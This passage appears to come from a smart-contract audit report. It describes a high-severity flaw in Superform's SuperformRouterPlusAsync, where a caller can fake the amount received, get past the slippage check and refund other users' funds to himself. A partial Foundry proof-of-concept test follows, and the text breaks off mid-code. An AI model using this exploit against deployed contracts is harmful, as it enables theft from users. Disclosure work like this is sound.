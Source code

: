 When then calling [`completeCrossChainRebalance()`](https://github.com/superform-xyz/superform-core/blob/f7f06d763a6af148899e9c292f1a57414db60cc3/src/router-plus/SuperformRouterPlusAsync.sol#L221-L415), he can specify an arbitrary `args_.amountReceivedInterimAsset`.

Given this, he can pass the [negative slippage check](https://github.com/superform-xyz/superform-core/blob/f7f06d763a6af148899e9c292f1a57414db60cc3/src/router-plus/SuperformRouterPlusAsync.sol#L242-L247) and enter the refund if block, where he can issue a refund to himself with the fake `data.expectedAmountInterimAsset` amount.

The last step, calling [`finalizeRefund()`](https://github.com/superform-xyz/superform-core/blob/f7f06d763a6af148899e9c292f1a57414db60cc3/src/router-plus/SuperformRouterPlusAsync.sol#L450), he transfers the funds to himself.

Here is a PoC that demonstrates this scenario:

```solidity
function test_PoC_H1() public {
    vm.selectFork(FORKS[SOURCE_CHAIN]);
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    // alice start a cross chain rebalance
    vm.startPrank(alice);

    SingleVaultSFData memory sfData = SingleVaultSFData({
        superformId: superformId1,
        amount: 1e18,
        outputAmount: 1e18,
        maxSlippage: 100,
        liqRequest: LiqRequest({
            txData: "",
            token: getContract(SOURCE_CHAIN, "DAI"),
            interimToken: address(0),
            bridgeId: 0,
            liqDstChainId: SOURCE_CHAIN,
            nativeAmount: 0
        }),
        permit2data: "",
        hasDstSwap: false,
        retain4626: false,
        receiverAddress: address(alice),
        receiverAddressSP: address(alice),
        extraFormData: ""
    });

    IBaseSuperformRouterPlus.XChainRebalanceData memory data = IBaseSuperformRouterPlus.XChainRebalanceData({
        rebalanceSelector: IBaseRouter.singleDirectSingleVaultDeposit.selector,
        interimAsset: getContract(SOURCE_CHAIN, "DAI"),
        slippage: 100,
        expectedAmountInterimAsset: 1e18,
        rebalanceToAmbIds: new uint8[][](0),
        rebalanceToDstChainIds: new uint64[](0),
        rebalanceToSfData: abi.encode(sfData)
    });
    vm.stopPrank();

    // simulate call to startCrossChainRebalance
    vm.startPrank(ROUTER_PLUS_SOURCE);
    SuperformRouterPlusAsync(ROUTER_PLUS_ASYNC_SOURCE).setXChainRebalanceCallData(alice, 1, data);
    vm.stopPrank();

    // bob start a cross chain rebalance
    vm.startPrank(bob);
    sfData = SingleVaultSFData({
        superformId: superformId1,
```